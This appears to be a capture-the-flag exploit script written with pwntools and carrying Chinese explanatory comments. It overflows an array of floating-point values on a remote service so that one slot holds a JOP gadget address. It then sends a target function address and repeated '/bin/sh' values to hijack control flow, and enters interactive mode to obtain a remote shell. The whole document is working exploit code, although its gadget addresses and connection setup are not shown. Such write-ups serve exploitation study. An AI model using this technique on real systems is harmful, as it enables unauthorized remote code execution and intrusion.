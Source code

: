 ```python
# 接收一行数据（通常是服务器的欢迎消息或提示）
io.recvline()
# 提示用户输入令牌（token），将输入转换为字节并发送给服务器进行身份验证
io.sendline(input("Input your token: ").encode())


# 定义一个函数，将64位整数转换为双精度浮点数
def i64tof64(int_value):
    # 将整数转换为小端字节表示(小端字节表示是指低地址字节在前，就是说和普通阅读方式相反，用在许多处理器架构的存储中)，并再将其转换为双精度浮点数
    bytes_value = struct.pack("<Q", int_value)#pack用于将数据按照指定的格式编码成字节串，“<”表示使用小端字节序，“Q”表示64位无符号整数
    double_value = struct.unpack("<d", bytes_value)[0]#用于将字节串解码为指定格式的数据
    return double_value


# 定义一个函数，将双精度浮点数转换为64位整数
def f64toi64(double_value):
    # 将双精度浮点数转换为小端字节表示，再转换为64位整数
    bytes_value = struct.pack("<d", double_value)
    int_value = struct.unpack("<Q", bytes_value)[0]
    return int_value


# 等待接收到特定输入提示符
io.recvuntil(":\n".encode())
# 发送一个整数0x100，可能是发送数组大小的指令
io.sendline(str(0x100).encode())

# 构造一个包含256个浮点数的列表，初始值均为4.3
stu_list = [4.3 for i in range(0x100)]
# 将列表中的第16个元素设为JOP_gadget对应的浮点数，以覆盖该位置的数据并控制跳转地址
stu_list[0x10] = i64tof64(JOP_gadget)

# 等待接收到下一个输入提示符
io.recvuntil(":\n".encode())
# 依次发送stu_list中的每个浮点数值，逐个编码为字符串并发送
for i in stu_list:
    io.sendline(str(i).encode())

# 等待接收服务器的特定提示符
io.recvuntil(b"...\n")
# 将GET_my_hwatch_addr的浮点数值发送给服务器，用于触发指定函数的执行
io.sendline(str(i64tof64(GET_my_hwatch_addr)).encode())

# 接下来发送255次"/bin/sh"的浮点表示，以便传递可能执行shell的指令
for _ in range(0x100 - 1):
    # 将"/bin/sh"字符串转换为浮点数，编码为字符串并发送
    io.sendline(str(i64tof64(u64(b"/bin/sh\x00"))).encode())

# 进入交互模式，如果成功利用漏洞，将获得远程shell的访问权限
io.interactive()

```
